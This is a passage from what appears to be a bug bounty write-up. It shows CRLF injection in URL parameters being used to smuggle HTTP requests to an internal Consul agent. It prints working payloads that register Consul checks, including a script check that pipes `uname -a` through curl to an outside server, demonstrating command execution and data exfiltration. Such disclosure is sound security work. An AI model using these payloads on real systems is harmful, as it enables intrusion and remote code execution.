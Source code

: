 ```
https://mockbin.org/bin/UUID?Test1 HTTP/1.1\r\nConnection: keep-alive\r\nHost: example.org\r\nContent-Length: 1\r\n\r\n1\r\nPUT /bin/UUID?Test2 HTTP/1.0\r\n\r\n\r\n
```

In order to test this, I performed a regular request in the web application using a browser and then replayed the request using OWASP ZAP in order to allow for tampering with the payload after the fact.

![POST / PUT](/assets/article_images/2017/POST_PUT.png)

Success! The HTTP library appeared to be incorrectly processing the `\r\n` characters in the URL HTTP GET parameters, and injecting additional HTTP requests! As a result, it was confirmed possible to construct arbitrary HTTP requests after the initial hard-coded HTTP POST using only the URL.

### PUTting it all together.

Now that I had a method to perform arbitrary HTTP requests against a given server I could finally confirm whether the TCP 8500 listener was indeed an Hashicorp Consul agent, and whether it had been ACL’d appropriately.

In order to test this, I constructed a URL which used `\r\n` characters to terminate the original HTTP POST with a `Content-Length` of `1` (with a payload of `1`) and then perform a ‘follow-on’ request containing an HTTP PUT request to create an ‘HTTP check’ inside of the Consul agent. The constructed URL looked something like the following:

```
http://127.0.0.1:8500/? HTTP/1.1\r\nConnection: keep-alive\r\nHost: example.org\r\nContent-Length: 1\r\n\r\n1\r\nPUT /v1/agent/check/register HTTP/1.1\r\nHost: example.org\r\nContent-Length: 121\r\n\r\n{"id": "BugcrowdDarkarnium","name": "BugcrowdDarkarnium","http": "http://some-server/","interval": "60s","timeout": "5s"}
```

After submission of this payload in the URL field I had to wait for up to a minute to see whether the ‘check’ would fire, as the interval was configured to 60 seconds to prevent loading up the server with unnecessary HTTP requests.

![Lookin good!](/assets/article_images/2017/consul-http-get-sanitized.png)

A few anxious moments later, I saw a successful HTTP PUT against my testing server with a User-Agent of `Consul Health Check`, confirming that this was both a Consul agent and that ACLs weren’t applied to the `check` endpoint!

In order to confirm whether I **could** use this to pop a shell on the remote system (without actually popping a shell, given that this was a bounty program not a red team exercise), I modified the request slightly; replacing the `http` check with a `script` check configured it to pipe the result of `uname -a` into an HTTP POST request using CURL. The final payload looked something like the following:

```
http://127.0.0.1:8500/? HTTP/1.1\r\nConnection: keep-alive\r\nHost: example.org\r\nContent-Length: 1\r\n\r\n1\r\nPUT /v1/agent/check/register HTTP/1.1\r\nHost: example.org\r\nContent-Length: 195\r\n\r\n\u007B\u0022id\u0022: \u0022BugCrowdDarkarnium\u0022,\u0022name\u0022: \u0022BugCrowdDarkarnium\u0022,\u0022script\u0022: \u0022/bin/uname -a | /usr/bin/curl -k -XPOST -d @- https://some-server/writer/writer.php?f=uname\u0022,\u0022interval\u0022: \u002260s\u0022,\u0022timeout\u0022: \u00225s\u0022\u007D
```
